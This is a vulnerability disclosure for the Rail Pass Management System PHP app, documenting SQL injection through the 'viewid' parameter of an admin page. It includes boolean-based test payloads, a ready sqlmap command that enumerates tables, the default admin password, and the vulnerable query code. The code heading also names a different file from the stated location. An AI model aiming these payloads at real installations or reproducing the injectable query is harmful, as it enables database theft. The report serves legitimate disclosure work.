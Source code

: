 # [Rail Pass Management System-SQL Injection-view-enquiry.php]

## Basic Information

**[Bug Reporter]: **DiliLearngent

**[Application Vendors]:** `https://phpgurukul.com/rail-pass-management-system-using-php-and-mysql/`

**[Test Environment]: **windows10+apache+php5.6+mysql5.5

**[Install]:**

1. Download the zip file

2. Extract the file and copy `rpms` folder

3. Paste inside root directory(for xampp xampp/htdocs, for wamp wamp/www, for lamp var/www/HTML)

4. Open PHPMyAdmin (http://localhost/phpmyadmin)

5. Create a database with the name `rpmsdb`

6. Import `rpmsdb.sql` file(given inside the zip package in the SQL file folder)

7. Run the script `http://localhost/rpms`

**Credential for Admin panel :**

**Username:** admin
**Password:** Test@123

## Bug Information

**[Vulnerability type]:** SQL Injection

**[Vulnerability Url]:** `http://localhost/rpms/admin/view-enquiry.php?viewid=1`    

**[Vulnerability Location]:** rpms/admin/view-enquiry.php

**[Vulnerability Test]:**

1. When you enter `1%20and%201=1` in the `viewid` parameter, the page displays as follows:

   ![](../../img/20230427165637.png)

2. When you enter `1%20and%201=2` in the `viewid` parameter, the page displays as follows:

   ![](../../img/20230427165659.png)

3. Testing with sqlmap

   ```
   python sqlmap.py -u "http://localhost/rpms/admin/view-enquiry.php?viewid=1" --cookie="PHPSESSID=4acbjc61q1opnkih7qmkd6g9t7" -D rpmsdb --tables --batch
   ```

   ![](../../img/20230427165849.png)

**[code analysis]:**

rpms/admin/edit-pass-detail.php

```php
<?php
$vid=$_GET['viewid'];
$sql="SELECT * from  tblpass where ID=$vid";
$query = $dbh -> prepare($sql);
$query->execute();
$results=$query->fetchAll(PDO::FETCH_OBJ);
$cnt=1;
if($query->rowCount() > 0)
{
foreach($results as $row)
{               ?>
```

The GET parameter `viewid` is obtained without any filtering and spliced directly into the sql execution statement, and then a different page response exists depending on the result of the execution.